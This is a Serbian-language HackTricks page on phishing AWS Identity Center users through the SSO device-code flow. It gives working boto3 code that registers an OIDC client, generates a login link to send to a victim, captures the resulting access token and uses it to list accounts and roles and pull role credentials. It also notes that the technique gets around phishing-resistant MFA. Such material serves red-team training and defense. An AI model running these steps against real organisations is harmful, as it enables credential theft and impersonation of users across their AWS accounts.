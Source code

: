 # AWS - Centar identiteta i SSO neovlašćeno nabrajanje

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodiču PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## AWS Fishing sa kodom uređaja

Inicijalno predloženo u [**ovom blog postu**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), moguće je poslati **link** korisniku koristeći AWS SSO, koji će ako ga **korisnik prihvati**, omogućiti napadaču da dobije **token za predstavljanje korisnika** i pristup svim ulogama koje korisnik može pristupiti u **Centru identiteta**.

Da bi izveo ovaj napad, potrebni su uslovi:

* Žrtva mora koristiti **Centar identiteta**
* Napadač mora znati **poddomen** koji koristi žrtva `<victimsub>.awsapps.com/start`

Samo sa prethodnim informacijama, **napadač će moći da pošalje link korisniku** koji će, ako je **prihvaćen**, omogućiti **napadaču pristup nad AWS korisničkim** nalogom.

### Napad

1. **Pronalaženje poddomena**

Prvi korak napadača je da otkrije poddomen koji koristi kompanija žrtve u svom Centru identiteta. Ovo se može uraditi putem **OSINT-a** ili **pogađanja + BF** jer će većina kompanija koristiti svoje ime ili varijaciju svog imena ovde.

Sa ovim informacijama, moguće je dobiti region gde je Centar identiteta konfigurisan sa:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Generišite link za žrtvu & Pošaljite ga**

Pokrenite sledeći kod kako biste generisali AWS SSO link za prijavljivanje kako bi žrtva mogla da se autentifikuje.\
Za demonstraciju, pokrenite ovaj kod u Python konzoli i nemojte je zatvarati jer će vam kasnije biti potrebni neki objekti za dobijanje tokena:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **Sačekajte dok žrtva ne prihvati**

Ako je žrtva **već prijavljena u AWS**, samo će trebati da prihvati davanje dozvola, ako nije, moraće se **prijaviti, a zatim prihvatiti davanje dozvola**.\
Ovako danas izgleda prozor zahteva:

<figure><img src="../../../.gitbook/assets/image (154).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Dobijanje SSO pristupnog tokena**

Ako je žrtva prihvatila zahtev, pokrenite ovaj kod da **generišete SSO token predstavljajući se kao korisnik**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO pristupni token je **važeći 8 sati**.

5. **Impersonate the user**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Ribarenje neuhvatljivog MFA

Zabavno je znati da prethodni napad **radi čak i ako se koristi "neuhvatljivi MFA" (webAuth)**. To je zato što prethodni **tok rada nikada ne napušta korišćenu OAuth domenu**. Za razliku od drugih napada ribarenja gde korisnik mora zameniti domen za prijavljivanje, u slučaju toka rada sa kodom uređaja pripremljen je tako da **kod bude poznat uređaju** i korisnik može da se prijavi čak i sa drugog uređaja. Ako se prihvati upit, uređaj, samo **znajući početni kod**, moći će da **dobije pristupne podatke** za korisnika.

Za više informacija o ovome [**proverite ovaj post**](https://mjg59.dreamwidth.org/62175.html).

### Automatski alati

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Reference

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>Naučite hakovanje AWS-a od početnika do stručnjaka sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
